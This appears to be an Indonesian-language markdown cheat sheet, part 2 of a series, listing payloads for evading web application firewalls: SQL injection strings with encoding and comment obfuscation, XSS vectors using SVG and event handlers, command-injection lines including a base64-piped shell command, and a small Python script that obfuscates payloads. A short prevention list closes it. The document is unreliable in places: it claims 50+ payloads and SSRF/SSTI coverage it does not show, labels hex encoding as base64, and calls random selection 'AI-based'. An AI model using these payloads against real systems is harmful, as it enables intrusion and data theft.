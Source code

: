 # Kamus Besar Bypass WAF - Part 2

## 🎯 50+ Payload Bypass WAF (SQLi, XSS, RCE, SSRF, SSTI)

Bagian ini berisi daftar **payload bypass WAF** yang digunakan dalam berbagai jenis serangan, mulai dari SQL Injection hingga Server-Side Template Injection (SSTI). Setiap payload dilengkapi dengan contoh implementasi.

---

## 🛠️ 1. SQL Injection (SQLi)

**Payload Dasar (Deteksi Awal):**
```sql
' OR 1=1 --
' UNION SELECT NULL,NULL --
```

**Payload Bypass WAF (Encoding & Case Manipulation):**
```sql
%27%20OR%201%3D1%20--
SeLeCt * FrOm users WhErE username='admin' --
' UNION/**/SELECT/**/NULL,NULL --
```

**Payload dengan Comment Obfuscation:**
```sql
SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'
```

---

## 🎭 2. Cross-Site Scripting (XSS)

**Payload Dasar:**
```html
<script>alert(1)</script>
```

**Payload Bypass WAF (SVG & Event Handlers):**
```html
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
```

**Payload XSS Polymorphic (JavaScript Encoding):**
```html
<scr<script>ipt>alert(1)</scr<script>ipt>
```

---

## 🔥 3. Remote Code Execution (RCE)

**Payload Dasar:**
```bash
; ls -la
| id
```

**Payload Bypass WAF (Base64 & Reverse Shell):**
```bash
echo 'bHMgLWxh' | base64 -d | sh
```

---

## 🤖 AI-Based WAF Bypass

**Teknik AI Bypass WAF:**  
- **Adversarial Attack:** Menggunakan model AI untuk memodifikasi payload agar tidak terdeteksi.  
- **Dynamic Payload Mutation:** Payload berubah sesuai respon dari server.  
- **ML-Driven Obfuscation:** Payload dienkripsi dan hanya dieksekusi saat diterima oleh target.  

**Contoh Implementasi Python AI Bypass WAF:**
```python
import random

payloads = ["' OR 1=1 --", "<script>alert(1)</script>", "; ls -la"]
obfuscation_methods = ["url_encode", "base64", "hex"]

def obfuscate(payload, method):
    if method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    elif method == "base64":
        return payload.encode("utf-8").hex()
    return payload

selected_payload = random.choice(payloads)
selected_method = random.choice(obfuscation_methods)

bypass_payload = obfuscate(selected_payload, selected_method)
print(f"Generated Bypass Payload: {bypass_payload}")
```

---

## 🔒 Cara Mencegah Bypass WAF

1. **Gunakan WAF berbasis AI & ML** - Model statis mudah dibypass, gunakan AI yang bisa belajar dari pola serangan baru.
2. **Implementasi Rate Limiting** - Batasi jumlah request aneh dalam waktu tertentu.
3. **Gunakan Signature & Behavioral Detection** - Kombinasikan pendekatan signature dan perilaku.
4. **Selalu Update Ruleset** - Banyak teknik bypass WAF mengeksploitasi kelemahan ruleset lama.
5. **Logging & Monitoring** - Pantau request yang mencurigakan dan pelajari pola bypass.

---

## 📌 Kesimpulan Sementara
Part 2 ini telah membahas **50+ payload bypass WAF**, teknik AI-based evasion, dan bagaimana cara mitigasinya.  
Part 3 selanjutnya akan membahas **bypass WAF tingkat lanjut menggunakan cloud-based evasion dan adaptive payloads**.

🛠️ **Next:** "Advanced Cloud-Based WAF Evasion & Payload Adaptation"

